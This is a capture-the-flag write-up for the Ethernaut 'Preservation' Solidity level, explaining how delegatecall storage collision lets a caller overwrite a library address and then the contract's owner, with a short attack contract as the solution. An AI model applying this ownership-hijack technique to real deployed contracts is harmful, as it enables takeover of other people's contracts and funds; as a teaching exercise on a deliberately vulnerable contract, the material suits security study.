

## Challenge
### Description
This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored.
The goal of this level is for you to claim ownership of the instance you are given.
Things that might help
Look into Solidity's documentation on the delegatecall low level function, how it works, how it can be used to delegate operations to on-chain libraries, and what implications it has on execution scope.
Understanding what it means for delegatecall to be context-preserving.
Understanding how storage variables are stored and accessed.
Understanding how casting works between different data types.
### Code
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {
    // public library contracts
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint256 storedTime;
    // Sets the function signature for delegatecall
    bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

    constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
        timeZone1Library = _timeZone1LibraryAddress;
        timeZone2Library = _timeZone2LibraryAddress;
        owner = msg.sender;
    }

    // set the time for timezone 1
    function setFirstTime(uint256 _timeStamp) public {
        timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }

    // set the time for timezone 2
    function setSecondTime(uint256 _timeStamp) public {
        timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }
}

// Simple library contract to set the time
contract LibraryContract {
    // stores a timestamp
    uint256 storedTime;

    function setTime(uint256 _time) public {
        storedTime = _time;
    }
}
```
## Background

---

`delegatecall` executes another contract's code, but the execution context remains that of the calling contract. Context here means the execution environment such as `storage`, `msg.sender`, `msg.value`, and `address(this)`.
In other words, when you do `A.delegatecall(B's function)`, the code runs B's function, but reads and writes of state variables apply to A's storage. In this challenge, that is why the code that changes the library's `storedTime` actually changes `Preservation`'s slot 0.

---

EVM storage stores values by slot number, not by variable name. Simple state variables are placed in slot 0, slot 1, slot 2 in declaration order.
`Preservation`'s storage layout is as follows.
```solidity
// Preservation
slot 0: address timeZone1Library
slot 1: address timeZone2Library
slot 2: address owner
slot 3: uint256 storedTime
```
`LibraryContract`, on the other hand, has only one state variable.
```solidity
// LibraryContract
slot 0: uint256 storedTime
```
Calling `LibraryContract.setTime()` normally changes `LibraryContract`'s slot 0. But when `Preservation` calls it via `delegatecall`, the same code runs on top of `Preservation`'s storage. As a result, `Preservation`'s slot 0, i.e. `timeZone1Library`, changes. Two contracts reading the same slot number as different variables is called a storage collision.

---

`setFirstTime` takes a `uint256` argument, but the value we want to put in is the attack contract's `address`. An address is a 160-bit value, so we can pass it up through `uint160` and then to `uint256`.
```solidity
uint256(uint160(address(attack)))
```
Convert the attack contract address to a `uint256` value and pass it to `setFirstTime`. When this number is written to slot 0, its lower 160 bits are interpreted as an address.
## Code analysis

---

Start with the `delegatecall` call sites.
```solidity
bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

function setFirstTime(uint256 _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
}

function setSecondTime(uint256 _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
}
```
`setFirstTime` builds the `setTime(uint256)` call data for the `timeZone1Library` address and `delegatecall`s it. Because the return value is not checked, whether the call succeeds does not directly constrain the solution.
The target address of the call is stored in the state variable `timeZone1Library`. If we can change this address to the attack contract address, the next `setFirstTime` will `delegatecall` the attack contract's `setTime` instead of the original library's.

---

Next is the slot the library code actually writes.
```solidity
contract LibraryContract {
    uint256 storedTime;

    function setTime(uint256 _time) public {
        storedTime = _time;
    }
}
```
In `LibraryContract`, `storedTime` is slot 0, so `storedTime = _time` writes `_time` to slot 0.
But this code runs via `Preservation`'s `delegatecall`. So `_time` actually lands in `Preservation`'s slot 0, not `LibraryContract`'s. `Preservation`'s slot 0 is `timeZone1Library`, so the first call lets us change `timeZone1Library` to the attack contract address.

---

The attack contract also needs to match its storage layout so that `owner` lands at the same position as in `Preservation`.
```solidity
contract Attack {
    address public s0;
    address public s1;
    address public owner;

    function setTime(uint256 _time) public {
        owner = msg.sender;
    }
}
```
`Attack.owner` is the third state variable, so it is in slot 2. When `Preservation` `delegatecall`s this code, the slot 2 write becomes a write to `Preservation.owner`.
The attack flow has two stages. First, use the existing library's `setTime` to overwrite slot 0 and change `timeZone1Library` to the attack contract. Then call `setFirstTime` again to run the attack contract's `setTime`, which changes `owner` in slot 2 to `msg.sender`.
## Solution
No function sets the `timeZone1Library` address directly. But `setFirstTime` runs the library's slot 0 write through `delegatecall`, so the first `setFirstTime` call overwrites `timeZone1Library`.
After deploying the attack contract, convert its address to `uint256` and put it into `setFirstTime`. This changes `Preservation`'s slot 0 to the attack contract address. `timeZone1Library` now points at the attack contract, so calling `setFirstTime` once more runs the attack contract's `setTime` on top of `Preservation`'s storage.
### Exploit
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attack {
    address public s0;
    address public s1;
    address public owner;

    function setTime(uint256 _time) public {
        owner = msg.sender;
    }
}
```

